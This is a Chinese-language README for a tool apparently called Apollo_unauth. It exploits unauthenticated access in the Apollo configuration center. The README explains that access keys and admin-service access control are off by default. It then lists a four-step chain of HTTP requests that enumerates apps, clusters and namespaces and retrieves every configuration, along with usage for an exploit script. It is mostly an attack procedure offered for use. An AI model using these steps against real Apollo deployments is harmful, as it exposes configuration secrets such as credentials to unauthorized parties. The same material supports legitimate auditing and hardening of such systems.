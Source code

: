 # Apollo_unauth
Apollo 配置中心未授权获取配置漏洞利用

## 0x00：背景
Apollo（阿波罗）是携程框架部门研发的分布式配置中心，能够集中化管理应用不同环境、不同集群的配置，配置修改后能够实时推送到应用端，并且具备规范的权限、流程治理等特性，适用于微服务配置管理场景。
项目地址: https://github.com/ctripcorp/apollo

## 0x01：默认不安全
从 issues-2099 可以看出，根本不需要通过要鉴权的 apollo-dashboard ，只要通过伪造成客户端，即可未授权获取相应的配置信息。

Apollo 官方的解决方案是：

1.6.0 版本开始增加访问密钥机制，只有经过身份验证的客户端才能访问敏感配置。如果应用开启了访问密钥，客户端需要配置密钥，否则无法获取配置。但是默认不会开启此项功能。

1.7.1 版本开始可以为 apollo-adminservice 开启访问控制，从而只有合法的 apollo-portal 才能访问对应接口，以增强安全性。类似于增加配置：

admin-service.access.control.enabled = true
admin-service.access.tokens=098f6bcd4621d373xade4e832627b4f6
有意思的是，默认 admin-service.access.control.enabled 值为 false，也就是默认不会开启此项功能。

## 0x03：漏洞利用

大致流程就是利用默认可未授权访问的 apollo-configservice 和 apollo-adminservice 服务，通过调用相关接口获取所有能够获取到的配置信息。

```
# 1. 获取所有的应用基本信息(包含 appId)
http://test.landgrey.me:8090/apps

# 2. 获取相关 appId 的所有 cluster
http://test.landgrey.me:8090/apps/<appId>/clusters

# 3. 获取相关 appId 的 namespaces
http://test.landgrey.me:8090/apps/<appId>/appnamespaces

# 4. 组合 appId cluster namespaceName 获取配置 configurations
http://test.landgrey.me:8080/configs/<appId>/<cluster>/<namespaceName>
```

脚本用法如下：

Usage: Apollo_unauth.py -t <apollo_adminservice_url> and -c <apollo_configservice_url>

参考文章：https://buaq.net/go-53399.html
